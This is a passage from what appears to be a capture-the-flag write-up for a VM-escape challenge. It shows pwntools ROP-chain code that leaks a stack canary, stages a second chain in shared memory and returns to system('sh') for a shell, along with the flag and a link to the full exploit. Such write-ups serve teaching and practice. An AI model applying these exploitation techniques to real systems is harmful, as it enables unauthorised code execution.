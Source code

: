 ```python
# leak parent stack canary
rop.write(1, shared_mem + 74, 8)
# read rop chain for parent to shared_mem
rop.read(0, shared_mem, 0x1000)
# trigger rop in parent, via sys_ls()
rop.write(parent_fd, rop_data_addr + len(rop_data), 5)
rop_data += data_sys(6)
# exit
rop.exit(0)
```

The ROP chain executed in the kernel is very simple: since the binary imports `system`, we can return to it, passing `sh` as argument (which we can also place in the shared memory), and finally get a shell!

```python
rop = ROP(binary)
# 'sh' is placed at shared_mem + 0x300
rop.system(shared_mem + 0x300)
```

Flag: `midnight{7h3re5_n0_I_iN_VM_bu7_iF_th3r3_w@s_1t_w0uld_b3_VIM}`

You can find the full exploit script [here](https://gist.github.com/LevitatingLion/725dd8bfa710d95b108fa83f67449132).
